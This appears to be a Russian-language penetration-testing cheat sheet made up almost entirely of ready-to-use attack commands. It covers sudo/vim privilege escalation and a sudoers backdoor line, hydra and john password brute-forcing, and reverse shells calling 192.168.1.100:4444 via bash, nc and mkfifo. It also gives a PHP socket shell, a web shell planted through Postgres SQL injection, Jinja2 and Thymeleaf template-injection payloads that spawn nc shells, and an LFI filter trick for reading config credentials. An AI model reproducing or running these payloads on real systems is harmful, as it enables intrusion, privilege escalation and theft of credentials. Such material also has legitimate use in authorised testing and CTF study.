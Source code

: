 **Postgres:**

Чтение каталогов через:
```
SELECT pg_ls_dir('/home');
```
Чтение файлов:
```
SELECT pg_read_file('/home/file');
```
**Доступные команды sudo: sudo -l**
**vim с правами root:**
```
/usr/bin/vim -c ":!/bin/bash"
/usr/bin/vim /etc/sudoers
  <твое_имя_пользователя> ALL=(ALL:ALL) NOPASSWD: ALL
```
**Перебор паролей ssh:**
```
hydra -l user -P password.txt ssh://IP
```
**Атака по открытому ключю:**
```
john --worldlist=password.txt --format=SSH id_rsa
```
**Перебор паролей FTP:***
```
hydra -l admin -P password.txt ftp://IP -t 1 -w 10
t - одно соединение за раз
w - задержка в 10 секунд
```
**Перебор паролей postgres:**
```
hydra -l postgres -P password.txt -V IP postgres
```
**Reverse shell:**
Если есть RCE:
```
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 - на цели
nc -lvnp 4444
```
ИЛИ:
```
nc -e /bin/sh 192.168.1.100 4444
```
ИЛИ:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```
**Если можем загружать файл и открыать его:**
Создаем .php:
```
<?php
$sock=fsockopen("192.168.1.100",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
**Если есть SQLi Postgres:**
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
curl http://target.com/shell.php?cmd=whoami
```
**Если есть SSTI на Jinja2:**
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc -e /bin/sh 192.168.1.100 4444').read()
```
**Если есть SSTI на Thymeleaf:**
```
${T(java.lang.Runtime).getRuntime().exec("nc -e /bin/sh 192.168.1.100 4444")}
```
**Через LFI:**
```
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
Декодируем данные, находим креды, используем их в дальнейшем
